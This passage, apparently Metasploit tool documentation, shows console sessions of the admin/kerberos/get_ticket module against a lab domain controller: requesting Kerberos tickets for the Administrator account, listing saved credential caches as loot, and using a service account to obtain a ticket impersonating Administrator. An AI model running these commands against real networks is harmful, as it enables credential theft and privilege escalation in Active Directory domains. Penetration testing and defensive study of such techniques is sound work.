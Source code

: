 ```msf
[*] Running module against 10.0.0.24

[-] Auxiliary aborted due to failure: unknown: Error while requesting a TGT: Kerberos Error - KDC_ERR_PREAUTH_REQUIRED (25) - Additional pre-authentication required - Check the authentication-related options (PASSWORD, NTHASH or AES_KEY)
[*] Auxiliary module execution completed
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=Administrator action=GET_TGS spn=cifs/dc02.mylab.local KrbUseCachedCredentials=false password=<redacted>
[*] Running module against 10.0.0.24

[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved on /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_200958.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_849639.bin
[*] Auxiliary module execution completed
msf auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
----             -------  ----                 ----  -------                   ----                                                                             ----
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104183244_default_10.0.0.24_mit.kerberos.cca_171694.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104183244_default_10.0.0.24_mit.kerberos.cca_360960.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: krbtgt/mylab.local, username: administrator     /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_200958.bin
10.0.0.24                 mit.kerberos.ccache        application/octet-stream  realm: MYLAB.LOCAL, serviceName: cifs/dc02.mylab.local, username: administrator  /home/msfuser/.msf4/loot/20221104183538_default_10.0.0.24_mit.kerberos.cca_849639.bin
```

TGS impersonating the Administrator account:

```msf
msf auxiliary(admin/kerberos/get_ticket) > run verbose=true rhosts=10.0.0.24 domain=mylab.local username=serviceA password=123456 action=GET_TGS spn=cifs/dc02.mylab.local impersonate=Administrator
[*] Running module against 10.0.0.24

[*] 10.0.0.24:88 - Getting TGS impersonating Administrator@mylab.local (SPN: cifs/dc02.mylab.local)
[+] 10.0.0.24:88 - Received a valid TGT-Response
[*] 10.0.0.24:88 - TGT MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_667626.bin
[+] 10.0.0.24:88 - Received a valid TGS-Response
[+] 10.0.0.24:88 - Received a valid TGS-Response
[*] 10.0.0.24:88 - TGS MIT Credential Cache saved to /home/msfuser/.msf4/loot/20221201210211_default_10.0.0.24_mit.kerberos.cca_757041.bin
[*] Auxiliary module execution completed
msf auxiliary(admin/kerberos/get_ticket) > loot

Loot
====

host             service  type                 name  content                   info                                                                             path
```